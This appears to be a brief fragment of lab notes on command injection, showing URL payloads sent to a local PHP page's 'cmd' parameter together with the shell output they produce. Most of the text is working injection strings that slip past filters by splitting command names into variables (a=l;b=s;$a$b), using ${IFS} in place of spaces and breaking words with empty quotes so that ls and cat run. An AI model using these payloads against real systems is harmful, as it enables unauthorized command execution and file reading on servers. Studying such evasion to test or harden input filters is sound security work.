 `http://127.0.0.1:9999/test9.php?cmd=./%27;a=l;b=s;$a$b;%27`

```bash
[root@514bd01cb105 html]# a=l;b=s;$a$b
phpinfo.php  test1.php  test3.php  test5.php  test7.php  test9.php
test007.php  test2.php  test4.php  test6.php  test8.php  zip.zip
```

`http://127.0.0.1:9999/test9.php?cmd=./%27;a=c;b=at;c=test9.php;$a$b${IFS}$c;%27`

![](assets/markdown-img-paste-20180416160330907.png)

`http://10.101.177.100:9999/test9.php?cmd=./%27;c''at${IFS}test9.php;%27`
